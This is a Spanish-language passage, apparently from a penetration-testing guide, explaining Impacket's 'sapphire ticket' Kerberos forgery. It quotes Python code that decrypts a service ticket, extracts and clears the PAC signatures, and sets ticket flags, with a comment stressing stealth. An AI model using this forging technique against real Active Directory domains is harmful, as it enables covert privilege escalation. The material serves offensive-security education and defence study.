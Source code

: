 Y el PAC del TGT que ya tenemos es (casi) cambiado como se haría normalmente en *Ticketer* con el nuevo PAC obtenido de S4U2Self+U2U tras actualizar *pacInfos*.

Además, algunas banderas siempre están configuradas: Forwadable, Proxiable, Renewable, Pre-Authent

```python
[...]
            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]

            # Let's extend the ticket's validity a lil bit
            # I don't think this part should be left in the code. The whole point of doing a sapphire ticket is stealth, extending ticket duration is not the way to go
            # encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            # encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)

            # Opening PAC
            adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
            pacType = pac.PACTYPE(adIfRelevant[0]['ad-data'].asOctets())
            pacInfos = dict()
            buff = pacType['Buffers']

            # clearing the signatures so that we can sign&encrypt later on
            logging.info("\tClearing signatures")
            for bufferN in range(pacType['cBuffers']):
                infoBuffer = pac.PAC_INFO_BUFFER(buff)
                data = pacType['Buffers'][infoBuffer['Offset'] - 8:][:infoBuffer['cbBufferSize']]
                buff = buff[len(infoBuffer):]
                if infoBuffer['ulType'] in [PAC_SERVER_CHECKSUM, PAC_PRIVSVR_CHECKSUM]:
                    checksum = PAC_SIGNATURE_DATA(data)
                    if checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes256.value:
                        checksum['Signature'] = '\x00' * 12
                    elif checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes128.value:
                        checksum['Signature'] = '\x00' * 12
                    else:
                        checksum['Signature'] = '\x00' * 16
                    **pacInfos[infoBuffer['ulType']] = checksum.getData()**
                else:
                    **pacInfos[infoBuffer['ulType']] = data**
[...]
**newFlags = [TicketFlags.forwardable.value, TicketFlags.proxiable.value, TicketFlags.renewable.value, TicketFlags.pre_authent.value]**
[...]
else:
            encTicketPart = EncTicketPart()

            flags = list()
            flags.append(TicketFlags.forwardable.value)
            flags.append(TicketFlags.proxiable.value)
            flags.append(TicketFlags.renewable.value)
            if self.__domain == self.__server:
                flags.append(TicketFlags.initial.value)
            flags.append(TicketFlags.pre_authent.value)
            encTicketPart['flags'] = encodeFlags(flags)
            encTicketPart['key'] = noValue
            encTicketPart['key']['keytype'] = kdcRep['ticket']['enc-part']['etype']

            if encTicketPart['key']['keytype'] == EncryptionTypes.aes128_cts_hmac_sha1_96.value:
```